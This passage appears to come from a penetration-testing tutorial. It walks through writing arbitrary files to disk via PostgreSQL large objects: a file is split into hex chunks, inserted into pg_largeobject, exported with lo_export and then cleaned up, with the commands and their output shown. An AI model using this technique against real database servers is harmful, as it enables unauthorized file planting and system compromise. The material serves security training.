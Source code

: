 #### Writing Files

Writing files using `large objects` is a very similar process. Essentially we will create a large object, insert hex-encoded data `2kb` at a time and then export the large object to a file on disk.

First we need to prepare the file we want to upload by splitting it up into `2kb` chunks:

```shell
split -b 2048 /etc/passwd
ls -l
total 8
-rw-r--r-- 1 kali kali 2048 Feb 25 06:52 xaa
-rw-r--r-- 1 kali kali 1328 Feb 25 06:52 xab

```

We'll convert each chunk ( `xaa,xab,...`) into hex-strings like this:

```shell
xxd -ps -c 99999999999 xaa
726f6f743a783a303a303a726<SNIP>

```

Once that's ready, we can create a `large object` with a known `object ID` with `lo_create`, then insert the hex-encoded data one page at a time into `pg_largeobject`, export the `large object` by `object ID` to a specific path with `lo_export` and then finally delete the object from the database with `lo_unlink`.

```shell
bluebird=# SELECT lo_create(31337);
 lo_create
-----------
     31337
(1 row)

bluebird=# INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('726f6f74<SNIP>6269','HEX'));
INSERT 0 1
bluebird=# INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 1, DECODE('6e2f626173<SNIP>96e0a','HEX'));
INSERT 0 1
bluebird=# SELECT lo_export(31337, '/tmp/passwd');
 lo_export
-----------
         1
(1 row)

bluebird=# SELECT lo_unlink(31337);
 lo_unlink
-----------
         1
(1 row)

bluebird=# exit

head /tmp/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```